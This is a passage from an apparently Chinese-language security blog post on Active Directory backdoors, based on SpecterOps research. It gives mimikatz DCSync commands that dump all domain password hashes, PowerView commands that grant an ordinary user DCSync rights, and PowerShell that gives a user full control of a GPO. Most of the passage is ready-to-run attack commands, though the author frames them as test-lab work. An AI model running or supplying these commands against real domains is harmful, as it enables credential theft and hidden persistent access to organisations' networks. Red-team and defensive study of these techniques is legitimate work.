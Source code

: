 **注：**

该方法学习自：https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf

DCSync是mimikatz的一个功能，能够模拟域控制器并从域控制器导出帐户密码hash

如果我们在域内一台主机上获得了域管理员权限，可以使用如下命令直接导出域内所有用户的hash：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
```

导出域内administrator帐户的hash：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

默认情况下，只有`Domain Controllers`和`Enterprise Domain Admins`权限能够使用DCSync

但我们可以对`DS-Replication-GetChanges(GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)`和`DS-Replication-Get-Changes-All(1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)`添加ACL，这样就能实现普通用户调用DCSync导出域内所有用户的hash

实现代码：

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270

添加ACL的命令如下：

```
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync
```

接下来，在域内一台登录了test1用户的主机上面，就能使用mimikatz的DCSync功能

删除ACL的命令如下：

```
Remove-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync
```

#### 2、GPO后门

(1)查看当前域内的GPO

```
Import-Module GroupPolicy
Get-GPO -All
```

如下图，`TestGPO`是我在测试环境自己添加的，`Default Domain Policy`和`Default Domain Controllers Policy`是域环境默认存在的GPO

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-12-12/4-3.png)

(2)添加用户test1对TestGPO的完全访问权限

```
$RawObject = Get-DomainGPO -Raw -Identity 'TestGPO'
$TargetObject = $RawObject.GetDirectoryEntry()
$ACE = New-ADObjectAccessControlEntry -InheritanceType All -AccessControlType Allow -PrincipalIdentity test1 -Right AccessSystemSecurity,CreateChild,Delete,DeleteChild,DeleteTree,ExtendedRight,GenericAll,GenericExecute,GenericRead,GenericWrite,ListChildren,ListObject,ReadControl,ReadProperty,Self,Synchronize,WriteDacl,WriteOwner,WriteProperty
$TargetObject.PsBase.ObjectSecurity.AddAccessRule($ACE)
$TargetObject.PsBase.CommitChanges()
```
